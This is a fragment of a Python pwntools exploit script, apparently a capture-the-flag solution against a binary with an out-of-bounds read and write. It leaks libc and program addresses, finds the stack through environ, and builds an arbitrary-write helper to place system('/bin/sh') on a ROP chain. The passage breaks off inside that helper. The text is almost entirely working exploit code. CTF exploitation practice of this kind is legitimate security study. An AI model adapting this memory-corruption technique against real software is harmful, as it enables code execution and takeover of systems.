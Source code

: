 ```python
  io.sendline(str(i))
  io.sendline("-1")


io.recvuntil("> > > > > > > > > > > > > > > > > > > > > > > > > ")

puts_addr = u64(io.recv(6)+'\x00\x00')
#fgets_addr = u64(io.recv(6)+'\x00\x00')
#success(len(io.recv(6)))
progbuf_addr = u64(io.recv(6)+'\x00\x00')

libc_base = puts_addr - 0x6F690
environ = libc_base + 0x3c6f38
elf_base = progbuf_addr - 0x202040

success(hex(elf_base))
success(hex(environ))
success(hex(libc_base))

#raw_input()

x = (environ - elf_base - 0x202040) / 80
y =  (environ - elf_base - 0x202040) % 80

x_1 = x / 50000
x_2 = x % 50000

for i in range(6):
  io.sendline(str(y+i))
  io.sendline(str(x_1))
  io.sendline(str(50000))
  io.sendline(str(x_2))

stack_addr = ''
for i in range(6):
  stack_addr += io.recv(1)
stack_addr = u64(stack_addr+'\x00\x00')
success(hex(stack_addr))
rop_target = stack_addr - 0x128 + 0x38
raw_input()

offset = rop_target - progbuf_addr
prdir = 0x120c + elf_base
binsh_addr = libc_base + 0x18cd57 
system_addr = libc_base + 0x045390

context.log_level = 'info'

# write(progbuf_addr + offset, value, 8)
def edit(offset, value):
  x = offset / 80
  y = offset % 80
  x_1 = x / 50000
  x_2 = x % 50000
  success(x_1)
  success(x_2)
  success(y)
  success(hex(value))
  for i in range(8):
    val = value & 0xff
    value = value >> 8
    success("round{}: val:{} | y:{} | x_1:{} | x_2:{} | write at:{}".format(i, hex(val), y+i, x_1, x_2, hex((x_1*50000+x_2)*80+y+i+progbuf_addr)))
```